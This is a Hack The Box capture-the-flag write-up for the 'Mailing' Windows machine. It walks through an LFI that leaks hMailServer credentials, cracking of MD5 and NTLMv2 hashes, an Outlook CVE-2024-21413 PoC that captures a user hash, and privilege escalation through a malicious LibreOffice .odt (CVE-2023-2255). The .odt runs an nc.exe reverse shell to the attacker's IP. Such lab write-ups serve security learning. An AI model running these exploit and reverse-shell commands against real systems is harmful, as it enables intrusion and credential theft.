



# Mailing - Easy

Target IP: **10.129.232.39**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.232.29 -v```

Output shows a lot of mail servers and two webservers running on the machine.

```
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://mailing.htb
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER TOP UIDL
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: CHILDREN completed CAPABILITY RIGHTS=texkA0001 IMAP4rev1 QUOTA ACL OK NAMESPACE SORT IMAP4 IDLE
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
|_SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
|_SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap      hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
|_SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
|_imap-capabilities: CHILDREN completed CAPABILITY RIGHTS=texkA0001 IMAP4rev1 QUOTA ACL OK NAMESPACE SORT IMAP4 IDLE
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
60614/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

It seems to be running hMailServer.

Let's add ```mailing.htb``` to our hosts file and navigate to it.

It seems like the home page for the mail server.



There is a button on the website that downloads us a file, a pdf containing the instructions to use the mail server.



However, it seems to be sending a request to ```download.php```, grabbing the file from the machine.



I wonder if LFI is possible. Let's try grabbing the configuration file for hMailServer, ```hMailServer.ini```.

It works, and we see credentials in the file.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-xdseggsvx3]─[~]
└──╼ [★]$ cat hMailServer.ini
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

These are MD5 hashes. Let's crack it with hashcat.

```
841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
```

We can use this to authenticate to SMTP.

There is a [PoC](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability) for a CVE we can try for Windows mail.

We can target ```maya```. We start an smb server on the attack box and run Responder also.

After running the script, we get the NTLM hash for ```maya```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-xdseggsvx3]─[~/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability]
└──╼ [★]$ python CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender hi@mailing.htb --recipient maya@mailing.htb --url "\\10.10.15.194\share" --subject "hi"

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de

✅ Email sent successfully.
```

```
[*] User MAILING\maya authenticated successfully
[*] maya::MAILING:aaaaaaaaaaaaaaaa:86d0a9a7d1ecd83445fa58789983e7a1:010100000000000080404ffd3c63dd012c8ef64a7a75913b00000000010010006a007100500041005600480052005400030010006a007100500041005600480052005400020010006e007500620055007300550052007400040010006e0075006200550073005500520074000700080080404ffd3c63dd01060004000200000008003000300000000000000000000000002000002ddc878e4568356fc81a750482bb902337ae0d073449df2ddf49f931fb7da4bd0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e003100390034000000000000000000
```

Let's crack this.

```
MAYA::MAILING:aaaaaaaaaaaaaaaa:86d0a9a7d1ecd83445fa58789983e7a1:010100000000000080404ffd3c63dd012c8ef64a7a75913b00000000010010006a007100500041005600480052005400030010006a007100500041005600480052005400020010006e007500620055007300550052007400040010006e0075006200550073005500520074000700080080404ffd3c63dd01060004000200000008003000300000000000000000000000002000002ddc878e4568356fc81a750482bb902337ae0d073449df2ddf49f931fb7da4bd0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e003100390034000000000000000000:m4y4ngs4ri
```

We can log in with this now.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-xdseggsvx3]─[~]
└──╼ [★]$ evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents> whoami
mailing\maya
```

We can proceed to get the user flag from here.

## Root Flag

```LibreOffice``` is unusual in ```Program Files```.

We can see this is version 7.4.0.1.

```
*Evil-WinRM* PS C:\Program Files\LibreOffice\program> type version.ini
[Version]
AllLanguages=en-US af am ar as ast be bg bn bn-IN bo br brx bs ca ca-valencia ckb cs cy da de dgo dsb dz el en-GB en-ZA eo es et eu fa fi fr fur fy ga gd gl gu gug he hsb hi hr hu id is it ja ka kab kk km kmr-Latn kn ko kok ks lb lo lt lv mai mk ml mn mni mr my nb ne nl nn nr nso oc om or pa-IN pl pt pt-BR ro ru rw sa-IN sat sd sr-Latn si sid sk sl sq sr ss st sv sw-TZ szl ta te tg th tn tr ts tt ug uk uz ve vec vi xh zh-CN zh-TW zu
buildid=43e5fcfbbadd18fccee5a6f42ddd533e40151bcf
ExtensionUpdateURL=https://updateexte.libreoffice.org/ExtensionUpdateService/check.Update
MsiProductVersion=7.4.0.1
ProductCode={A3C6520A-E485-47EE-98CC-32D6BB0529E4}
ReferenceOOoMajorMinor=4.1
UpdateChannel=
UpdateID=LibreOffice_7_en-US_af_am_ar_as_ast_be_bg_bn_bn-IN_bo_br_brx_bs_ca_ca-valencia_ckb_cs_cy_da_de_dgo_dsb_dz_el_en-GB_en-ZA_eo_es_et_eu_fa_fi_fr_fur_fy_ga_gd_gl_gu_gug_he_hsb_hi_hr_hu_id_is_it_ja_ka_kab_kk_km_kmr-Latn_kn_ko_kok_ks_lb_lo_lt_lv_mai_mk_ml_mn_mni_mr_my_nb_ne_nl_nn_nr_nso_oc_om_or_pa-IN_pl_pt_pt-BR_ro_ru_rw_sa-IN_sat_sd_sr-Latn_si_sid_sk_sl_sq_sr_ss_st_sv_sw-TZ_szl_ta_te_tg_th_tn_tr_ts_tt_ug_uk_uz_ve_vec_vi_xh_zh-CN_zh-TW_zu
UpdateURL=https://update.libreoffice.org/check.php
UpgradeCode={4B17E523-5D91-4E69-BD96-7FD81CFA81BB}
UpdateUserAgent=<PRODUCT> (${buildid}; ${_OS}; ${_ARCH}; <OPTIONAL_OS_HW_DATA>)
Vendor=The Document Foundation
```

This is vulnerable to ```CVE-2023-2255```, which is an access control vulnerability that allows us to run commands as the account running LibreOffice.

I found a [PoC](https://github.com/elweth-sec/CVE-2023-2255/blob/main/CVE-2023-2255.py) we can use.

First, let's transfer nc.exe to the remote machine.

Then, we can generate an ```.odt``` file containing our payload.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-xdseggsvx3]─[~/CVE-2023-2255]
└──╼ [★]$ python CVE-2023-2255.py --cmd 'cmd.exe /c C:\Users\Maya\Desktop\nc.exe -e cmd.exe 10.10.15.194 4444' --output 'exploit.odt'
File exploit.odt has been created !
```

We can transfer this file over to the remote machine, and it should execute.

Soon after, we get a shell as local admin.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-xdseggsvx3]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.232.39 54038
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
whoami
mailing\localadmin
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
